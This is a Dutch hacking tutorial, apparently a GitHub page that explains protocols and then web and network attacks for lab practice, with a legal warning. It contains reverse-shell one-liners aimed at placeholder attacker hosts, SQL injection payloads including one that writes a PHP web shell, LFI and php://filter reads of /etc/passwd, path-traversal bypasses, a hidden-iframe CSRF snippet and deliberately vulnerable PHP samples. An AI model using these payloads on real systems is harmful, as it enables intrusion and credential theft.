



# Voorwoord
In het kader van [https://www.laatjeniethackmaken.nl](https://www.laatjeniethackmaken.nl "laatjeniethackmaken.nl") heb ik besloten om juist het tegenovergestelde te gaan maken. Gatochhacken.nl. Waarom ga toch hacken? Omdat er veel vragen zijn en mensen wel met security willen beginnen maar eigenlijk erg veel moeite hebben met het vinden van de juiste informatie in een voor hen begrijpelijke taal (Nederlands). 

Ik ga je niet leren hacken, dat is iets wat je zelf met veel oefening zal moeten doen. Het enige wat ik kan doen is begrippen uitleggen, de ene keer iets uitgebreider dan de andere, en je doorverwijzen naar bronwebsites waar je vervolginformatie kunt vinden. Het is onmogelijk om al deze informatie in één document te bundelen.

Daarnaast verwacht ik van iemand die wil leren hacken dat er een zekere mate van intrinsieke nieuwsgierigheid aanwezig is en dat je jezelf wilt gaan inlezen. Om te voorkomen dat je afhaakt zal er wel wat text zijn om de linkjes aan elkaar te plakken. Deze pagina is overigens permanent under construction. Spot je een foutje, of heb je een verzoekje voor inhoud, maak dan een [issue](https://github.com/gatochhacken/gatochhacken.github.io/issues) aan op [github](https://www.github.com).

Als je aan deze pagina wilt bijdragen, bekijk dan even het dankwoord onderaan.

**LET OP** alle technieken, code voorbeelden en andere informatie zijn technieken waarmee je kan hacken. Deze toepassen op een systeem waar jij geen toestemming hebt om dit te doen is een strafbaar feit! (artikel [138ab](http://wetten.overheid.nl/jci1.3:c:BWBR0001854&boek=Tweede&titeldeel=V&artikel=138ab) wetboek van strafrecht) Bega geen fout, wil je oefenen en dingen proberen, kijk dan op de website van [https://www.certifiedsecure.com](https://www.certifiedsecure.com "Certified Secure")

# Bestandstypen #

## Portable Executable ##
Portable Executables zijn de executables van Windows. Hierbij kan je voornamelijk denken aan bestanden met de extensie EXE, DLL en SYS. In het PE formaat is alle informatie die bewaard is om een executable in het geheugen te laden en op een juiste manier uit te voeren. Een portable executable bestaat uit verschillende onderdelen, waaronder de Signature ([magic number](https://en.wikipedia.org/wiki/Magic_number_(programming))) (MZ). Om een goed begrip te krijgen van de latere teksten over het backdooren van executables is het handig om eerst de inhoud en de werking van het PE formaat te kennen. Hiervoor raad ik je aan, op zijn minst, het volgende te [lezen](https://en.wikipedia.org/wiki/Portable_Executable#Technical_details).

# Protocollen
Het is ontzettend belangrijk dat je protocollen leert kennen, immers het kennen van protocollen zorgt voor een grotere flexibiliteit in aanvallen en een grotere onafhankelijkheid van tooling. Mocht je het protocol al kennen, dan kun je zelf eenvoudiger een tool schrijven die je bij een aanval ondersteund.

## HTTP

Het [HTTP protocol](https://tools.ietf.org/html/rfc7230) is een protocol die door veel gebruikers gebruikt wordt om op het internet pagina’s op te vragen. HTTP is een, relatief, eenvoudig plain-text protocol. 
Binnen HTTP verstuurt een gebruiker een verzoek naar een webserver, dit verzoek ziet er bijvoorbeeld als volgt uit:

    GET /index.php HTTP/1.1
    User-Agent: Firefox
    Host: www.voorbeeld.nl
    Accept-Language: en
     
    
In het bovengenoemde verzoek is GET de methode waarmee je een pagina opvraagt, daarachter staat de URI die je wilt opvragen en dan het protocol met de versienummer. Het User-Agent gedeelte is de browser die iemand gebruikt en de host het internet adres die een eindgebruiker wil bezoeken. Al deze velden kan jij als eindgebruiker beïnvloeden. Er bestaan overigens nog meer velden, maar daarvoor verwijs ik je graag naar de RFC zoals hierboven vermeld.
Als reactie hierop stuurt de server het volgende antwoord:

    HTTP/1.1 200 OK
    Date: Thu, 3 May 2018 18:43:53 GMT
    Server: Apache
    Last-Modified: Wed, 2 May 2018 01:44:23 GMT
    Content-Length: 73
    Content-Type: text/plain
    
    Hallo! Ik bedank je voor verzoek! Hier heb je mijn pagina als antwoord :)

Er zijn meerdere methoden om verzoeken naar webservers te sturen. Veel voorkomende methoden zijn:

**POST**, bedoeld om gegevens niet in de URL mee te sturen maar in de body van je request. Deze methode zullen goede developers gebruiken om logingegevens te verzenden. De met POST requests meegezonden data komen in de meeste webservers (zoals apache bij standaard instellingen) niet in de logging terug.

**HEAD**, doet hetzelfde als de hierboven genoemde GET request maar dan met als verschil dat de request body niet meegezonden wordt.

**TRACE**, met TRACE geeft de webserver de, door jou verzonden request headers weer zodat je kan zien of er tussen jou, en de webserver, nog aanpassingen gedaan zijn. 
Start wireshark op je ingerichte lab machine en kijk eens wat er gebeurd als je met de request generator gaat spelen.

## [FTP](https://tools.ietf.org/html/rfc959)

## [ICMP](https://tools.ietf.org/html/rfc792) ##
Het Internet Control Message Protocol (ICMP) is een protocol wat men gebruikt om netwerkfunctionaliteiten te testen. I Denk hierbij aan de bereikbaarheid van een server als je PING'ed en een reactie van een router dat het doelnetwerk onbereikbaar is.

Een ICMP pakket bestaat uit 16 bytes, waarbij de eerste byte de type is, de tweede byte de code. De derde en de vierde byte is de checksum van het pakket en in de laatste 4+ bytes staat een restantdeel. Dit is afhankelijk van het type en de code van het pakket.

Binnen ICMP is de type 0, code 0 packet de packet die je het vaakst gebruikt zal hebben. Deze packet verzend je namelijk als je op je commandline het ping commando gebruikt. Dit packet heet officieel de "Echo reply". Deze packet kan je potentieel gebruiken om data te exfiltreren. Alles na de officiele headers is namelijk vrij in te vullen en kan (al dan niet) gelijk geretourneerd worden.

Type 11 code 0 of 1 kan je gebruiken om het aantal hops tussen jou en een ander te bereiken. Denk hierbij aan tracert. Je kan de tracert (in verband met de TCP Time-to-live) ook gebruiken om te ontdekken of er inline firewalls aanwezig zijn.

## OSI-model ##
Alhoewel het OSI(Open Systems Interconnection)-model geen protocol is is het wel iets wat handig is om in je achterhoofd te houden als je iets wilt gaan doen met netwerk hacking. Het OSI-model bestaat uit 7 lagen. Hoe hoger de laag, des te dichter je bij de gebruiker aangekomen bent. Hieronder spits ik het toe op een TCP/IP stack, wil je iets anders hierover lezen dan is google een goede start. De lagen zijn als volgt:

**Laag 1: Physical**

De fysieke laag zorgt er voor dat de data die jij over een netwerk wilt verzenden ook daadwerkelijk op de kabel komt, en dat de data die mensen over het netwerk verzenden ook daadwerkelijk bij jouw systeem komt. Voorbeelden van deze protocollen zijn DSL, ISDN, CAN bus en WIFI. Als er iets ontvangen is, gaat deze informatie naar laag 2.
Dit kun je vergelijken met het posten van de brief, of het uit de brievenbus halen van je brief.

**Laag 2: Datalink**

De datalink laag bepaald de manier hoe er gecommuniceerd word en met wie. In deze laag zul je ook vaak foutcorrectie vinden. Voorbeelden van protocollen op deze laag zijn ethernet, CHAP en ARP. Dit kan je vergelijken met een adres die op de enveloppe geschreven wordt of of afgelezen wordt. 
	
**Laag 3: (inter)Network**

In deze laag vind je de IPv4 protocollen en de IPv6 protocollen zowel als IPSec en NAT. In deze laag wordt het mogelijk gemaakt om verschillende netwerken aan elkaar te knopen en routing toe te passen. Een bijkomend voordeel is dat bij het IP protocol hier IP adressen ontstaan die voor mensen normaal te lezen zijn. Dit kan je vergelijken met het opschrijven of aflezen van de postcode.

**Laag 4: Transport**

In de transport laag wordt end-to-end communicatie mogelijk gemaakt, hier wordt in feite de envelop gemaakt waar de boodschap in gaat. Bij sommige protocollen worden hier ook betrouwbaarheidsmaatregelen genomen, zoals bijvoorbeeld bij TCP. Bij TCP schrijf je ook een antwoordbevestiging op de envelop.

**Laag 5: Session**

Deze laag beheert de sessies die tussen twee communicerende partijen bestaan, het houd de verbinding open of sluit hem af als hij niet meer noodzakelijk is. Hierbij kan je denken aan SSH, SMB of RDP.

**Laag 6: Presentation**

De presentatie laag is de plaats waar de informatie een encoding,compressie of encryptie krijgt (of het omgekeerde natuurlijk). Deze laag is niet altijd eenvoudig te duiden, HTTP kan in sommige visies namelijk zowel onder de presentatie als de applicatie laag vallen.

**Laag 7: Application**

De applicatielaag is de hoogste laag van het OSI model en deze laag ligt erg dicht bij een eindgebruiker en hij zal deze dan meestal ook het vaakst kennen. Binnen deze laag vallen protocollen als DNS, WEBDav, HTTP en FTP. Dit zijn protocollen waarmee computers direct met elkaar kunnen communiceren over de (met de lagere lagen) opgezette telecommunicatie- en computernetwerken.

In laag 1 wordt de informatie uitgedrukt in bits, in laag 2 spreken we over frames. In laag 3 over packets en laag 4 over segments. Alles boven laag 4 is data.

Er zijn diverse ezelsbruggetjes om het OSI-model te onthouden. Één hiervan is *All people should try new dairy products*	

#Shells

##Reverse shell
Alhoewel een volledig interactieve shell soms niet nodig is om je doel te bereiken, is het wel een van de krachtigste toegangen die je als hacker kan krijgen. Een reverse shell is wanneer een computer naar jou terug verbind en vervolgens zijn shell of command line aan jou ter beschikking stelt.

Er zijn verschillende manieren om shells te bemachtigen, waaronder standaard met programmeertalen danwel de methodes met kant en klare agents.
 
Hieronder zal ik er een aantal plaatsen:
### Bash

    exec /bin/bash 0&0 2>&0 
    bash -i >& /dev/tcp/<IP>/<PORT> 0>&1

### Java
    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()

### Netcat

    nc -e /bin/sh ATTACKING-IP 80

### Perl

    perl -e 'use Socket;$i="IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

### [PHP](https://www.php.net)

    php -r '$sock=fsockopen("<ip>",<port>);exec("/bin/sh -i <&3 >&3 2>&3");'

### Ruby ###

    ruby -rsocket -e'f=TCPSocket.open("<ip>",<port>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

## MSFVenom ##
Msfvenom is de payloadgenerator van het Metasploit Framework. Met deze payloadgenerator kan je eenvoudig code genereren die diverse soorten backdoors, reverse shells of andere toepassingen bieden. 

### Linux ###

### Mac ###

### Windows ###

### Android ###

# Web attacks #

## Oefenomgeving ##

Zoals eerder genoemd is certified secure een mooie omgeving om web attacks te oefenen. Je kan hiervoor ook de Damn Vulnerable Web Application ([DVWA](http://www.dvwa.co.uk/)) gebruiken. De DVWA geeft een kwetsbare website waar je een heleboel van de hieronder genoemde technieken kan beoefenen. Je kan de DVWA in bijvoorbeeld [vmware player](https://www.vmware.com/products/workstation-player/workstation-player-evaluation.html) draaien.

De standaard gebruikersnaam en wachtwoord zijn admin en password. Je kan deze gegevens ook proberen te bruteforcen.

**Waarschuwing** Draai DVWA **nooit** op een echte server. Het is echt zo kwetsbaar en je webserver zal snel overgenomen worden.

## Enumeratie ##

Het is bijna onmogelijk om een onbeperkte lijst te geven van mogelijkheden waarop je binnen websites kan enumereren. Om hier toch een beeld te kunnen geven van welke gegevenssets je allemaal kan verzamelen van websites zullen er toch een niet limitatieve opsomming aan mogelijkheden gegeven worden.

### Zoekmachinefuncties ###

Veel websites willen het zoekmachines graag makkelijker maken om geïndexeerd te worden, of soms juist voorkomen dat een zoekmachine bij sommige pagina’s kan komen. Je kan altijd kijken of er een zogenaamd [robots.txt](http://www.robotstxt.org/) bestand is waarmee een beheerder de toegang tot bepaalde pagina’s wil beperken. Schrik niet als je hier de “geheime” paden naar de beheersinterface aantreft.

Als je juist eenvoudig en met weinig verzoeken gebruikers wil enumereren of andere informatie wil verzamelen waarvan het juist de bedoeling is dat zoekmachines hierbij kunnen, kijk dan eens naar de [sitemap](https://en.wikipedia.org/wiki/Site_map). In een sitemap neemt een beheerder juist de pagina’s op waarvan hij graag wil dat je die gaat lezen.

### Webpagina's ###

Als je niet weet welke mappen of bestanden er allemaal bestaan kan je bij bekende softwarepakketten de installatiebestanden downloaden en deze installeren. Op deze manier kan je een beeld krijgen welke pagina’s er allemaal in een installatie horen te zitten en kan je er achter komen of er iets als een changelog (publiek) beschikbaar is waarmee je de versie van een applicatie kan achterhalen.

### Dynamische pagina's ###

Tegenwoordig bevatten de meeste websites een content managment systeem. Deze content managment systemen maken het makkelijker om websites aan te maken en te beheren. Een beheerder hoeft geen HTML of CSS code meer te typen en kan eenvoudiger nieuwe pagina’s aan maken. Ook kan je vaak de inhoud van je website in eenzelfde omgeving typen als je van moderne tekstverwerkers gewend bent.
Als je een website tegen komt waarbij dit het geval is, en je vervolgens ziet dat userprofielen op te vragen zijn met een getal, dan kan je potentieel alle gebruikersnamen verzamelen. 

**Voorbeeld wordpress:**
Op Wordpress websites is het, standaard, mogelijk om de inlognamen van auteurs te vergaren. Deze inlognamen worden gebruikt om op het wp-admin panel in te loggen. 

http://<wordpress>/?author=<id>

Als je het id nummer op 1 zet krijg je de gebruikersnaam van de eerste aangemaakte Wordpress gebruiker. Dit zal vaak de administrator zijn.

### Login formulieren ###
Ook login formulieren kunnen een schat aan informatie prijs geven, zoals of een gebruiker bestaat en of je het juiste wachtwoord hebt. In het laatste geval zal je logischerwijs inloggen. Alhoewel het best practice is om aan te geven dat de gebruikersnaan en/of wachtwoord foutief ingevuld zijn geven sommige websites ook nog verschillende gegevens weer.

Je kan hier bijvoorbeeld zien dat je de gebruikersnaam niet goed hebt omdat de gebruiker niet bestaat.

Je kan hier bijvoorbeeld zien dat je de gebruikersnaam goed hebt, immers er is een dit wachtwoord is incorrect melding verschenen.

Aan dit veld kun je geen conclussies meer verbinden.

## Server-side controle functionaliteiten ##
### SQL ###
Voor sommige websites is het niet erg lastig om een SQL injectie uit te voeren. Er word een login formulier ingevuld en de credentials worden rechtstreeks naar een database gestuurd. Een voorbeeld hiervan in PHP kan bijvoorbeeld zo eruit zien:

    <?PHP
    	if (isset($_POST['submit']))
		{
			$result = mysqli_query($db,"SELECT id FROM users WHERE username='".$_POST['username']."' AND password="'.sha256($_POST['password']).'" lIMIT 1");
			if (mysqli_num_rows($result) == 1)
			{
				echo "U bent ingelogd";
			}else{
				echo "Uw gebruikersnaam of wachtwoord zijn fout";
			}
		}
    ?> 

Als je in het inlogformulier in een gebruikersnaam nu geldige SQL code schrijft, dan zal deze rechtstreeks in de query ingevoerd worden. Eerst moeten wij uit de quote breken, dus we plaatsen een enkele quote. Dan willen wij graag dat er een geldig resultaat word opgehaald, dus plaatsen wij er een OR 1 achter. Om te voorkomen dat de rest van de query ook nog uitgevoerd zal worden en wij dus een wachtwoord moeten opgeven, gaan wij de rest van de query uitcommenten. Dit doen wij met # -- .

Onze complete injectie ziet er dan als volgt uit:

`' OR 1 # -- ` 

Als je deze injectie invoert in de SQL injectie pagina van DVWA, dan zal je zien dat hij elke gebruiker terug geeft. In het bovenstaande voorbeeld maar 1, de eerste die hij tegen komt.  Op deze manier kan je elke mogelijke (correcte) query invoegen in een onveilig statement.

In sommige andere gevallen kan je meer informatie uit een database halen dan dat de websitemaker eigenlijk wilde. Er bestaan websites waarbij er dynamisch pagina's worden opgehaald om deze vervolgens aan de eindgebruiker weer te geven. Een voorbeeld van zo een pagina is als volgt: 

    <?PHP
		$pagina = 0;
		if (isset($_GET['pagina']))
		{
			$pagina = $_GET['pagina'];
		}
		
		$rPagina = mysqli_query($db, "SELECT titel, inhoud FROM paginas WHERE id=".$_GET['pagina']." LIMIT 1");
		if (mysqli_num_rows($rPagina) > 0)
		{
			$aPagina = mysqli_fetch_assoc($rPagina);

			echo "
				<h1>".$aPagina['titel']."</h1>
				".$aPagina['inhoud'];
		}
	?>

In deze pagina kan je met een sql injectie meer informatie opvragen. Voor deze query kun je gebruik maken van een **UNION SELECT injectie**.

allereerst gaan wij kijken of deze pagina überhaupt kwetsbaar is voor een SQL injectie. Wij gebruiken hiervoor een simpel testje, namelijk:

    1 OR 1=1

Als het goed is zie je weer gewoon de inhoud van de eerste pagina. Als de query niet kwetsbaar was geweest bleef je pagina leeg of zag je een foutmelding.

Bij een union select injectie is het van belang dat er net zo veel kolommen opgevraagd worden uit de database als oorspronkelijk al het geval was in de query. Ook moet je zorgen dat er uit de oorspronkelijke query geen enkel resultaat meer terug gegeven wordt.

De makkelijkste manier om te zorgen dat je geen resultaat terug krijgt bij een query met een numerieke ID als beperkende factor is die met het ID -1 selecteren. Als je als paginanummer -1 invoert zul je zien dat de pagina leeg blijft.

Alhoewel je nu natuurlijk al weet hoeveel kolommen je moet selecteren gaan wij toch proberen te achterhalen hoeveel het er moeten zijn. Na de -1 typen we nu UNION SELECT 1. Je krijgt dan de volgende injectie:

    -1 UNION SELECT 1

Als het goed is zie je of een foutmelding, of je pagina blijft leeg.

Als we dan de volgende selectie opgeven:

    -1 UNION SELECT 1,2

dan zie je als het goed is in de titel het getal 1, en in de inhoud het getal 2. 

Als je nu wilt weten welke tabellen er allemaal op de database server bestaan dan kun je kijken in de MySQL systeem database information_schema en dan in de tabel table. Hierin staan de kolomnamen table_schema en table_name. Probeer de volgende query maar eens in phpmyadmin:

    SELECT table_schema, table_name FROM information_schema.table

Doormidden van group_concat en concat kan je vervolgens deze velden in 1 kolom stoppen.

Als we terug gaan naar onze union select injectie kunnen wij de volgende query ervan maken:

`-1 UNION SELECT 1, GROUP_CONCAT(concat('table_schema'.'table_name'), '-') FROM information_schema.table # --` 

Zie in de inhoud nu alle tabellen verschijnen.

### Van SQL injectie naar Webshell ###

Als wij het bovenstaande codevoorbeeld weer pakken:

    <?PHP
		$pagina = 0;
		if (isset($_GET['pagina']))
		{
			$pagina = $_GET['pagina'];
		}
		
		$rPagina = mysqli_query($db, "SELECT titel, inhoud FROM paginas WHERE id=".$_GET['pagina']." LIMIT 1");
		if (mysqli_num_rows($rPagina) > 0)
		{
			$aPagina = mysqli_fetch_assoc($rPagina);

			echo "
				<h1>".$aPagina['titel']."</h1>
				".$aPagina['inhoud'];
		}
	?>

Zoals wij eerder gezien hebben kan je dan gegevens opvragen, maar sommige SQL accounts hebben ook toegang tot de [SELECT ... INTO](https://dev.mysql.com/doc/refman/8.0/en/select-into.html) syntax. Je webapplicatie moet wel schrijfrechten hebben op de plaats waar je een bestand wilt wegschrijven. Denk dan aan logische locaties zoals /tmp (heb je wel een LFI nodig) of in een directory van de webserver. Ook mappen waar de website sowieso file uploads opslaat zijn goede locaties.

Een voorbeeld van een injectie die je dan kan doen is als volgt:

`-1 UNION SELECT 1, '<?PHP $return = array(); exec($_GET['c'],$return); echo implode("\n",$return); ?>' INTO OUTFILE '/var/www/html/shell.php' # --`

Als je dan op de webserver de file shell.php opvraagt met als querystring c=ls dan zal je de directory listing zien van de /var/www/html map.  

## Client-side controle functionaliteiten ##

### Authenticatiefouten ###

### Sessie managment ###

### NoSQL ###

### CSP Bypass ###

### XPath ###

### LDAP ###

### File uploads ###

### Fouten in de logica ###

### Cross site scripting ###
Cross site scripting (XSS) is een techniek waarbij je “slechte” gebruikersinvoer kunt plaatsen op een website. Deze invoer kan je vervolgens gebruiken om mensen te besmetten of om hun cookies / credentials te stelen. 

Sommige browsers zoals Chrome en Internet Explorer >8.0 geven een foutmelding op het moment dat je XSS wilt uitvoeren. 

Als mensen op een plaats HTML gebruiken om inhoud weer te geven, zoals bij sommige messenger applicaties e.d., dan kan het ook zomaar zijn dat er een browser gebruikt is om dit weer te geven. Browsers voeren javascript uit, en derhalve kan je zomaar gebruik maken van XSS in andere applicaties dan browsers. 

#### Reflected XSS ####
Reflected of non-persistent XSS is een techniek waarbij een fout in de input sanitization het weergeven van kwaadaardige code toe staat. Het belangrijkste om te onthouden is dat in dit geval de aanval niet op de website opgeslagen is, en iemand dus alleen slachtoffer kan worden als hij echt jouw link aan klikt met de aanval.

#### PHP voorbeeld Reflected XSS ####
Het volgende code voorbeeld is kwetsbaar voor XSS 

    <?PHP
    	if (isset($_GET['status']))
    	{
    		echo $_GET['status'];
    	}
    ?>

Als je dit in een php pagina zet, en deze PHP pagina bezoekt met als [querystring](https://nl.wikipedia.org/wiki/Querystring) status=%3Cscript%3Ealert%28%27xss%27%29%3B%3C%2Fscript%3E zie je het volgende:

 

**Let op!** de waarden zijn urlencoded om geen verstoring in de URL te geven. 

#### Stored XSS ####
Stored of persistent XSS is een techniek waarbij een fout in de input sanitization het opslaan van je aanval mogelijk maakt. Dit soort aanvallen maken meer slachtoffers omdat iedereen die de specifieke pagina bezoekt er mee besmet zal worden.

**DVWS voorbeeld**

#### DOM XSS ####
DOM (Document Object Model) XSS is een methode waarbij een aanvaller de kwaadaardige code op zo een manier plaatst dat het nooit via de webserver loopt. Dit kan bijvoorbeeld als [javascript](https://nl.wikipedia.org/wiki/JavaScript) gebruik maakt van de URL van een webpagina zonder hierop een juiste input sanitization te doen.

## Local file inclusion ##
LFI is een aanvalstechniek die volledig Local File Inclusion heet. Het is een kwetsbaarheid waarbij een applicatie gebruikersinvoer niet op een juiste wijze bewerkt. Door deze kwetsbaarheid te misbruiken krijg je de mogelijkheid om bestanden in te laden waar dit (eigenlijk) niet de bedoeling was. Op deze manier kan je potentieel bestanden lezen als /etc/passwd of andere gevoelige bestanden.

File includes zijn redelijk te herkennen aan de parameters achter een pagina naam. Denk hierbij aan een GET parameter als file of page. Vaak zie je hier dan een bestandsnaam staan. In de submappen zijn enkele opdrachten te vinden waarmee je zelf met LFI kunt spelen.

## Path traversal ##
Path Traversal wordt ook wel Directory Traversal genoemd. Eigenlijk is dit niets anders dan in een regulier Linux filesystem navigeren. Als je iets in een andere map wilt zoeken zul je hier naar toe moeten navigeren op een manier zoals je dat op de command line ook doet. Als je test.txt wilt weergeven die een map hoger in de directory structuur staat kan je “cat ../test.txt” gebruiken.

Je kan op deze manier geen sources van PHP bestanden in zien. PHP bestanden worden door de PHP functies [include](https://www.php.net/include) en [require](https://www.php.net/require) ingeladen en geparsed. Hierdoor zal je hetzelfde zien als wat je ziet als je de pagina rechtstreeks bezoekt.

In sommige gevallen gebruiken mensen een WAF of hebben ze zelf scripting geschreven die opgegeven path's op hun inhoud filteren. Lang niet alle implementaties die mensen verzinnen geven een goede filtering. Wil je een inclusion mogelijkheid vinden dan is het altijd handig om in de querystrings te kijken naar keys die namen hebben als file, dir of path. Vaak gaat het dan om alfanumerieke waarden, maar dit hoeft niet altijd zo te zijn! Meestal is het handigst om even in de page source in je browser te kijken.

Om bepaalde filters te omzeilen kan je bijvoorbeeld je path url encoden of tweemaal url encoden. Dit geeft in die volgorde de volgende resultaten:

    ../
    %2e%2e%2f
    %252e%252e%252f

Ook kan je je path traversal in unicode opgeven uit de hoop dat een ontvangende applicatie hier niet correct mee om kan gaan. In sommige gevallen filteren scripts op *../* . Je kan dan ook eens een andere slash gebruiken dan die je net gebruikte. 

Mochten ze onverhoopt ../ en ..\ er uit filteren zoals in het volgende code voorbeeld:

    <?PHP
    	$path = $_GET['path'];
    	$path = ereg_replace('\.\./','',$path);
    	$path = ereg_replace('\.\./','',$path);
    	echo $path;
    ?>

Dan kan je bijvoorbeeld de volgende string opgeven:

    ...\.\

PHP zal in dat geval eerst de ..\ er uit filteren, en dan houd je alsnog een correcte path traversal over. 

### Simpele beveiliging ###
In sommige gevallen proberen developers een local file inclusion te voorkomen door bijvoorbeeld een extensie op te geven in hun include. Op deze manier kunnen ze voorkomen dat je bijvoorbeeld /etc/passwd uit kan lezen, omdat /etc/passwd.php niet bestaat.
 
In programmeertalen worden strings meestal beëindigd met een zogenaamde [null-byte](https://en.wikipedia.org/wiki/Null_character). Een null-byte is hexadecimaal 0x00 en heeft geen teken om hem weer te geven. Als je zelf een null-byte kan injecten in deze file, dan kan je potentieel voorkomen dat de extensie er achter geplakt wordt. 

Als het je niet lukte dan kan dit komen omdat je je URL niet correct ge-encode hebt. Een nullbyte kan je niet zomaar meesturen, maar moet door de webserver wel correct geïnterpreteerd worden. Stuur dus %00 mee in plaats van 0x00 of 0. De nullbyte methode werkt enkel in PHP < 5.3.

In filesystem functies trunct PHP onder linux de paden automatisch naar 4096 tekens. Je kan dit voor elkaar krijgen door voor het path een opstapeling van “./” strings op te nemen totdat je op dit maximum zit.

### LFI naar RCE via Log bestanden ###
Je kan met logbestanden potentieel RCE verkrijgen. Als je nieuwsgierig bent kan je de logbestanden in /var/log zelf bekijken en zien welke log bestanden je hiervoor zal kunnen misbruiken. Als je iets in een log bestand weet weg te schrijven kan je vervolgens het bestand includen en je code laten uitvoeren.

### PHP Wrapper ###

PHP kent verschillende wrappers. Met [PHP Wrappers](http://php.net/manual/en/wrappers.php.php) kan je toegang krijgen tot diverse I/O streams van applicaties en op deze wijze kan je bestanden uitlezen of commando’s op servers uitvoeren. Deze wrappers zijn voornamelijk bedoeld om met functies als readfile, file en file_get_contents te werken. 

#### php://data ####
#### php://stdin, php://stdout en php://stderr ####
#### php://input ####

De php://input wrapper voert altijd de complete inhoud van een POST request uit. Deze inhoud zal uitgevoerd worden zonder dat het door PHP, en de instellingen in php.ini, geparsed zijn. Hierdoor kan je commando’s op de server uitvoeren.

Installeer vervolgens de Firefox [Hackbar](https://addons.mozilla.org/nl/firefox/addon/hackbar/) op je lokale machine. Met de Hackbar kan je vervolgens POST verzoeken sturen naar de webserver en pagina.php met als url: <jeurl>/pagina.php?file=php://input

#### php://output ####
#### php://fd ####
#### php://memory en php://temp ####
#### php://filter ####
In sommige gevallen kan je enkel gebruik maken van [filters](http://php.net/manual/en/filters.php) om informatie uit te lezen. 

De syntax van filters is als volgt:
 
    php://filter/<type>.<filter>/<parameter>

Wil je een bestand uitlezen en deze base64 gecodeerd weergeven dan kun je het volgende gebruiken. 

    php://filter/convert.base64-encode/resource=../../../etc/passwd

### Zelf bestanden introduceren ###
Je kan zelf bestanden introduceren door middel van bijvoorbeeld upload formulieren. Op foto deel websites kan je een foto uploaden maar geen PHP bestanden. Je kan PHP code opnemen in de meta data van een afbeelding en deze via LFI kwetsbaarheid laten uitvoeren.

### Handige systeembestanden ###
Er bestaan systeembestanden die te misbruiken zijn als je de juiste invoer gebruikt. Dit zijn voornamelijk bestanden in de /proc/self mappen van Linux.
Dit zijn specifieker:

#### /proc/self/cmdline ####
#### /proc/self/stat ####
#### /proc/self/fd/[0-35] ####
In een van de filedescriptors van het huidige proces staat de Apache error log weggeschreven. Je kan zelf php code in de logging wegschrijven en deze later weer opvragen.

#### /proc/self/environ ####
Als je de environ file kan includen dan heb je de beschikking over de environmental variabelen waaronder de applicatie op dat moment draait. Een van de gebruikersgegevens die in deze environmental variabelen terecht komt is de user agent. Doormiddel van handige Firefox plugin zoals [uaswitcher](https://addons.mozilla.org/en-US/firefox/addon/uaswitcher/) kan je zelf je useragent aanpassen en hier bijvoorbeeld PHP code in plaatsen. 

### Cross Site Request Forgery ###
Cross Site Request Forgery of CSRF is een methode waarbij je gebruikers een actie kan laten uitvoeren zonder dat ze dit door hebben. In DVWA kan je dit zelf uitproberen, en ook bij CS zul je mogelijkheden vinden om dit te beoefenen.

Het simpelste voorbeeld uit DVWA is het aanpassen van je wachtwoord. Het formulier is naar de website toegestuurd in de querystring en er is geen mogelijkheid toegevoegd om te verifieren of die wel echt de actie van een ingelogde gebruiker was. Met het volgende code snippet zou je (als je ook XSS toegang hebt) eenvoudig elke langs surfende gebruiker zijn wachtwoord op de website kunnen aanpassen:

`<iframe src="http://<dvwa adres>/vulnerabilities/csrf/?password_new=qwerty&password_conf=qwerty&Change=Change#" style="width:0px;height:0px;>`

Elke gebruiker zal met de onzichtbare [iframe](https://www.w3schools.com/tags/tag_iframe.asp) automatisch de password vervang pagina aanroepen en het nieuwe wachtwoord qwerty instellen. 

# Netwerk aanvallen

## Enumeratie ##
Ook op netwerken is het erg belangrijk om een juiste enumeratie te doen. Het weten welke hosts er in het netwerk zijn en welke hosts er allemaal beschikbaar zijn om aan te vallen is één van de belangrijkste gegevens.

Bij het uitvoeren van een red team actie is het van belang dat het red team een zekere opbouw in "detecteerbaarheid" heeft. Immers het is de bedoeling dat het red team op een gegeven moment gedetecteerd wordt door het blue team om op deze wijze ook de incident response te kunnen testen.

### Passive host discovery

Er zijn diverse manieren om hosts op een netwerk te ontdekken, je kan actief scannen maar ook passief ontdekken welke systemen aanwezig zijn. Dit ontdekken zonder zelf activiteit in het netwerk te veroorzaken zal logischerwijs minder opvallen. Je kan met TCPdump een netwerkdump maken en deze in wireshark openen. Kijk naar alle binnenkomende ARP antwoorden en maak een lijstje van alle IP adressen die je voorbij ziet komen. Je kan, afhankelijk van de data die je binnenkrijgt natuurlijk ook andere protocollen dan ARP meenemen in dit lijstje.

